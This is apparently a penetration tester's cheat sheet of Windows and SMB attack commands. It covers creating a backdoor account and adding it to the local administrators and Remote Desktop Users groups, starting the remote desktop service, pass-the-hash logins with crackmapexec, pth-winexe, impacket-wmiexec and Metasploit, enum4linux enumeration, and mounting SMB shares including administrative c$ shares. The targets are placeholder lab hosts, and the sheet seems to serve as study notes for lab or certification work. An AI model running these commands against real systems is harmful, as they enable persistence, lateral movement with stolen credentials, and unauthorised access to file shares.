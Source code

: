 #### account management

*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```
-----


#### pass the hash

```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```
-----


#### enum4linux

*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```
-----


#### smbclient

*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```
-----


#### smbmount

```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```
-----




